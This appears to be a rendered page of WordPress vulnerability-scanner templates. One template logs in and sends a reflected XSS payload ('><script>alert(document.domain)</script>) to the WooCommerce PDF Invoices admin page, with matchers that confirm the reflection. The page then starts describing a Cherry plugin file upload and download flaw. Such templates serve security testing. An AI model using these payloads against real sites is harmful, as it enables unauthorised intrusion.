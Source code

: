 ### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/admin.php?page=wpo_wcpdf_options_page&tab=documents&section=invoice&"><script>alert(document.domain)</script> HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. > \<script>alert(document.domain)\</script>
  2. WooCommerce PDF Invoices
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Cherry Plugin \< 1.2.7 - Arbitrary File Retrieval and File Upload

## Description

- WordPress plugin Cherry \< 1.2.7 contains an unauthenticated file upload and download vulnerability, allowing attackers to upload and download arbitrary files. This could result in attacker uploading backdoor shell scripts or downloading the wp-config.php file.
- severity - high
- tags - wordpress,wp-plugin,lfi,wpscan
